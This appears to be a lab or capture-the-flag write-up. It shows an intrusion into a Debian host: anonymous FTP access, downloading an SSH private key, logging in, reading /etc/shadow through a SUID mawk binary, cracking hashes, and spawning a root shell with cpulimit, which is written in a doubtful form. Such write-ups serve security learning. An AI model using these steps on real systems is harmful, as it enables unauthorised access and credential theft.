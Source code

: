 ## Target Info
- **IP:** 192.168.191.130  
- **OS/Tech:** Debian 10, vsFTPd 3.0.3, OpenSSH 7.9p1, ZoneMinder-like service

---

## Credentials
- **User:** `hannah` (via SSH key)  
- **Password:** _(none)_

---

## Service Enumeration (`nmap -sC -sV`)

| Port     | State | Service | Version                                         |
|----------|-------|---------|-------------------------------------------------|
| **21**   | open  | ftp     | vsftpd 3.0.3 – anonymous login allowed          |
| **61000**| open  | ssh     | OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)  |

---

## Initial Access via FTP

1. **Anonymous FTP login**  
   ```bash
   ftp 192.168.191.130 21
   # Login as “anonymous” → success
   ```

2. **List & navigate**  
   ```bash
   ftp> ls -lsa
   229 Entering Extended Passive Mode ...
   drwxr-xr-x    2 0        0       4096 Aug 06  2020 .hannah
   ftp> cd .hannah
   ftp> ls
   -rwxr-xr-x    1 0        0       1823 Aug 06  2020 id_rsa
   ```

3. **Download SSH key**  
   ```bash
   ftp> get id_rsa
   ```

---

## SSH as `hannah`

1. **Adjust key permissions**  
   ```bash
   chmod 600 id_rsa
   ```

2. **Connect on port 61000**  
   ```bash
   ssh -i id_rsa hannah@192.168.191.130 -p 61000
   # Logged in as hannah
   ```
---

## Privilege Escalation

### 1. Enumerate SUID/SGID binaries
```bash
# SUIDs
find / -perm -u=s -type f 2>/dev/null
# …/usr/bin/mawk  # suspicious
# SGIDs
find / -perm -g=s -type f 2>/dev/null
```

### 2. Exploit `mawk` for file read (GTFOBins)
```bash
mawk '//' /etc/shadow | grep -E '^(root|hannah)'
# Displays salted SHA-512 hashes
```

3. **Crack hashes**  
   ```bash
   unshadow passwd shadow > crackme
   john crackme --wordlist=/usr/share/wordlists/rockyou.txt
   # no success
   ```

### 3. Exploit `cpulimit` (GTFOBins)
```bash
# Use cpulimit to spawn a root shell
cpulimit --path /bin/sh --signal SIGTERM --limit 100
# or the one-liner from GTFOBins for cpulimit
```

